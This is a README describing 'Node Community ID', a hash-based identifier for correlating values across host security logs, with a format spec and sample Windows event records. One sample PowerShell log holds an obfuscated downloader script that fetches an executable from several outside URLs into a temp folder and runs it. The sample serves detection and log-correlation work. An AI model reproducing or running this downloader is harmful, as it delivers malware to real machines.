 # Node Community ID

In local host monitoring, a lot of data points cannot be shared and used to compare with other data points.
When collecting large dataset and building graph, it's becoming a tedious task to find pivot or correlating
points. There are many application, system (e.g. sysmon, proprietary EDR) which are logging in different
format. The node community ID is providing a unique identifier to quickly find pivot points or correlating
values in large dataset. The node community ID is simple hashing describing the type of hashed values and
the xxhash of the concatenated values. The node community ID (NCID) can used as graph node.

# Format

`NCID-<TYPE>-<XXHASH>`

# NCID Type

|Value|Description                        |Example             |
|:---:|:---------------------------------:|:------------------:|
|1    |protocol:ip_dst:port               |udp:8.8.8.8:53      |
|2    |eventkey:value                     |MethodName:GetServerAutoReconnectInfo|
|3    |channel:eventkey:value             |Microsoft-Windows-PowerShell/Operational:ScriptBlockText:...:

# XXHash

- Default is 0
- Hash algorithm is [XXH128](https://cyan4973.github.io/xxHash/) (in hex)

# Sample EVT with interesting NCID

### NCID 2

The NCID is a generic community id which can use to map key:value for interesting common values without
knowing in advance the key.


```json
{
  "Provider_Name": "Microsoft-Windows-RemoteDesktopServices-RdpCoreTS",
  "Provider_Guid": "{1139c61b-b549-4251-8ed3-27250a1edec8}",
  "Provider": null,
  "EventID_Qualifiers": "",
  "EventID": "72",
  "Version": "0",
  "Level": "4",
  "Task": "4",
  "Opcode": "13",
  "Keywords": "0x4000000000000000",
  "TimeCreated_SystemTime": 1566996775,
  "TimeCreated": null,
  "EventRecordID": "1576",
  "Correlation_ActivityID": "{f4203a82-a3ed-4a64-86f8-cd9a9fba0000}",
  "Correlation_RelatedActivityID": "",
  "Correlation": null,
  "Execution_ProcessID": "396",
  "Execution_ThreadID": "3216",
  "Execution": null,
  "Channel": "Microsoft-Windows-RemoteDesktopServices-RdpCoreTS/Operational",
  "Computer": "MSEDGEWIN10",
  "Security_UserID": "S-1-5-20",
  "Security": null,
  "EventData_MethodName": "GetServerAutoReconnectInfo"
}
```

### NCID 3

```json
{
  "Provider_Name": "Microsoft-Windows-PowerShell",
  "Provider_Guid": "{a0c1853b-5c40-4b15-8766-3cf1c58f985a}",
  "Provider": null,
  "EventID_Qualifiers": "",
  "EventID": "4104",
  "Version": "1",
  "Level": "5",
  "Task": "2",
  "Opcode": "15",
  "Keywords": "0x0000000000000000",
  "TimeCreated_SystemTime": 1598411368,
  "TimeCreated": null,
  "EventRecordID": "683",
  "Correlation_ActivityID": "{ccad9034-7b61-0001-83cf-adcc617bd601}",
  "Correlation_RelatedActivityID": "",
  "Correlation": null,
  "Execution_ProcessID": "6620",
  "Execution_ThreadID": "6340",
  "Execution": null,
  "Channel": "Microsoft-Windows-PowerShell/Operational",
  "Computer": "DESKTOP-RIPCLIP",
  "Security_UserID": "S-1-5-21-2895499743-3664716236-3399808827-1001",
  "Security": null,
  "EventData_MessageNumber": "1",
  "EventData_MessageTotal": "1",
  "EventData_ScriptBlockText": "$Va5w3n8=(('Q'+'2h')+('w9p'+'1'));&('ne'+'w-'+'item') $eNV:teMP\\WOrd\\2019\\ -itemtype DIrectOry;[Net.ServicePointManager]::\"SecURi`T`ypRO`T`oCOL\" = ('t'+'ls'+'1'+('2, tl'+'s')+'11'+(', '+'tls'));$Depssu0 = (('D'+'yx')+('x'+'ur4g')+'x');$A74_j9r=('T'+'4'+('gf45'+'h'));$Fdkhtf_=$env:temp+(('{0}'+'word{'+'0}'+('2'+'01')+'9{0}') -F [CHAr]92)+$Depssu0+('.'+('ex'+'e'));$O39nj1p=('J6'+'9l'+('hm'+'h'));$Z8i525z=&('new-'+'obje'+'c'+'t') neT.WEbcLiENt;$Iwmfahs=(('h'+'ttp')+(':'+'//')+('q'+'u'+'anticaelectro'+'n'+'ic')+('s.com'+'/')+'w'+'p-'+'a'+('d'+'min')+'/'+'7A'+('Tr78'+'/*'+'htt')+('p'+'s:/')+('/r'+'e')+'be'+('l'+'co')+'m'+'.'+('ch/'+'pi'+'c')+('ture'+'_')+('l'+'ibra'+'ry/bbCt')+('l'+'S/')+('*ht'+'tp'+'s:/')+('/re'+'al')+'e'+'s'+('tate'+'a')+('gen'+'t')+'te'+('am.co'+'m')+'/'+('163/Q'+'T')+'d'+('/'+'*ht'+'tps:')+'//'+('w'+'ww.')+('ri'+'dd')+('hi'+'display.'+'c'+'o')+'m/'+'r'+'id'+'d'+('hi'+'/1pKY/'+'*htt')+'p'+(':'+'//')+('radi'+'osu'+'bmit.com/'+'sear')+('ch_'+'tes'+'t')+'/'+'p'+('/*'+'h')+('ttp'+':/')+'/'+('res'+'e')+'ar'+('ch'+'c')+'he'+'m'+('plu'+'s.'+'c')+('om/w'+'p-')+('a'+'dmin')+'/1'+('OC'+'C')+'/'+('*http:'+'/')+('/s'+'zymo')+('ns'+'zyp')+'er'+('sk'+'i')+('.'+'pl/a')+'ss'+('ets/'+'p')+'k/').\"S`Plit\"([char]42);$Zxnbryr=(('Dp'+'z9')+'4'+'a6');foreach($Mqku5a2 in $Iwmfahs){try{$Z8i525z.\"d`OWN`load`FIlE\"($Mqku5a2, $Fdkhtf_);$Lt8bjj7=('Ln'+('wp'+'ag')+'m');If ((.('Get-I'+'t'+'em') $Fdkhtf_).\"le`NgTH\" -ge 28315) {cp (gcm calc).path $Fdkhtf_ -Force; .('Invo'+'ke'+'-Item')($Fdkhtf_);$Nfgrgu9=(('Qj6'+'bs')+'x'+'n');break;$D7ypgo1=('Bv'+('e'+'bc')+'k0')}}catch{}}$Gmk6zmk=(('Z2x'+'aaj')+'0')",
  "EventData_ScriptBlockId": "fdd51159-9602-40cb-839d-c31039ebbc3a",
  "EventData_Path": null
}
```
